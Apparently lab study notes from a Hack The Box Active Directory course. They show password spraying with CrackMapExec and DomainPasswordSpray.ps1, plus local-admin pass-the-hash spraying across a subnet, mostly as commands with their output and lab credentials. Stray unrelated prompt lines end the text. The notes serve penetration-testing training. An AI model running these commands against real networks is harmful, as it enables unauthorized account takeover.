 2️⃣ \*\*Using CrackMapExec & Filtering Logon Failures ⭐\*\*

```
dollarboysushil@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

After getting correct credential from above method, we can validate the credentials using crackmapexec

```
dollarboysushil@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

3️⃣ \*\*Local Admin Spraying with CrackMapExec\*\*

```
dollarboysushil@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

&#x20;The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout

### **Internal Password Spraying - from Windows**

1️⃣ \*\*Using DomainPasswordSpray.ps1\*\*

```powershell
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] The smallest lockout threshold discovered in the domain is 5 login attempts.
[*] Removing disabled users from list.
[*] There are 2923 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 2923 users gathered from the current user's domain
[*] The domain password policy observation window is set to  minutes.
[*] Setting a  minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 2923 accounts?
[Y] Yes  [N] No  [?] Help (default is "Y"): Y

[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Welcome1 against 2923 users. Current time is 2:57 PM
[*] Writing successes to spray_success
[*] SUCCESS! User:sgage Password:Welcome1
[*] SUCCESS! User:tjohnson Password:Welcome1

[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to spray_success
```

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist